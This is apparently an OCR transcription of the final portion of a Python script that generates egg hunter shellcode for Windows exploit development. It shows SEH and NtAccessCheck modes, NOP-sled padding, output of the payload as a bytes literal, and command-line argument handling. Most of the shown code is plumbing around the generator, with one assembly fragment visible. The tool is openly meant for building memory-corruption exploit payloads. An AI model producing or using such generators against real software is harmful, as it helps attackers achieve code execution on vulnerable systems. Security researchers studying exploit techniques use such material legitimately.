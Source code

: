 ```
                "		jmp edi				;"
            )
            encoding, instructions = generate_egghunter(CODE)

    # Adding NOPs if specified
    if nop_count_before > 0:
        instructions = "\\x90" * nop_count_before + instructions
    if nop_count_after > 0:
        instructions += "\\x90" * nop_count_after

    out = "[+] Egg Hunter generated successfully\n"
    out += f"Egg Hunter size: {len(encoding)}\n"
    out += f"Egg Hunter size with NOPs: {len(encoding) + nop_count_before + nop_count_after}\n"
    out += f"Egg Hunter: egghunter = b\"{instructions}\""
    return out

def save_output(data):
    global OUTPUT_PATH
    if OUTPUT_PATH:
        try:
            with open(OUTPUT_PATH, 'w', encoding='utf-8') as file:
                file.write(data)
            log(f"Output saved to {OUTPUT_PATH}")
        except IOError as e:
            log(f"Error writing to file: {e}")
    else:
        log("No output path provided. Printing to console:")
        print(data)

def log(msg):
    print("[+] " + msg)

def run():
    global ARGS, OUTPUT_PATH
    ARGS = setup_arguments()

    if ARGS.output:
        if os.path.isdir(os.path.dirname(ARGS.output)):
            OUTPUT_PATH = ARGS.output
        else:
            log("Invalid output path. Results will be printed to console.")

    if ARGS.egghunter:
        if not ARGS.egg or len(ARGS.egg) != 4:
            sys.exit('Egg (--egg) must be provided and be exactly 4 characters long.')
        if not (ARGS.seh or ARGS.ntaccess):
            sys.exit('Either --seh or --ntaccess must be used with --egghunter.')

        if ARGS.seh:
            data = egghunter_seh(ARGS.egg)
            save_output(data)
        if ARGS.ntaccess:
            data = egghunter_nt(ARGS.egg, ARGS.ntaccess)
            save_output(data)

if __name__ == '__main__':
    run()
```
